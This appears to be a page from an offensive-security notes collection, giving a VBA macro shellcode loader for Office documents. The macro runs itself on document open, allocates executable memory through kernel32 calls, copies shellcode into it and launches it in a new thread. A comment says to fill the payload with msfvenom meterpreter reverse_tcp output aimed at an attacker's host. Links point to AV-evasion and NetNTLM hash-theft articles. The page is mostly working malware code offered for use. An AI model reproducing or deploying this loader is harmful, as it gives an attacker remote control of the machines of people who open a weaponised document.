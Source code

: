 # VBA

```vb
#If Vba7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal lpThread As Long, ByVal dwSize As Long, ByVal lpAddress As LongPtr, lpParameter As Long, ByVal dwCreation As Long, lpThread As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocation As Long, ByVal flProtect As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Destination As LongPtr, ByRef Source As Any, ByVal Length As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal lpThread As Long, ByVal dwSize As Long, ByVal lpAddress As Long, lpParameter As Long, ByVal dwCreation As Long, lpThread As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocation As Long, ByVal flProtect As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Destination As Long, ByRef Source As Any, ByVal Length As Long) As Long
#EndIf

Sub Auto_Open()
        Dim myByte As Long, myArray As Variant, offset As Long
#If Vba7 Then
        Dim rwxpage As LongPtr, res As LongPtr
#Else
        Dim rwxpage As Long, res As Long
#EndIf
        ' Replace this shellcode with:
        ' msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f vba
        myArray = Array()

        rwxpage = VirtualAlloc(0, UBound(myArray), &H1000, &H40)
        For offset = LBound(myArray) To UBound(myArray)
                myByte = myArray(offset)
                res = RtlMoveMemory(rwxpage + offset, myByte, 1)
        Next offset
        res = CreateThread(0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/Malware Development/Payload Execution/Shellcode Loader/Memory Allocation/Windows/WinAPI/Simple Loader/Virtual Allocation/C]]

### San3ncrypt3d

- [San3ncrypt3d: Running ShellCode in Memory | AV Evasion – VBA Version](https://san3ncrypt3d.com/2021/08/13/VBAShell/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)